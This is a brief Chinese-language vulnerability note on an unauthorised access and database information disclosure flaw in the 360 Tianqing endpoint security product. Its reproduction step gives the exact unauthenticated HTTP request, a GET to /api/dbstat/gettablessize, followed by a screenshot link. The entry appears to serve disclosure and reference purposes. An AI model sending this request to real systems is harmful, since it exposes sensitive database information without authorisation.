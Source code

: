 # 360天擎 越权访问/数据库信息泄露

## 漏洞描述

360天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

```
天擎
```

## 漏洞复现

```plain
GET /api/dbstat/gettablessize HTTP/1.1
```

![image-20220209200552429](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202092005904.png)

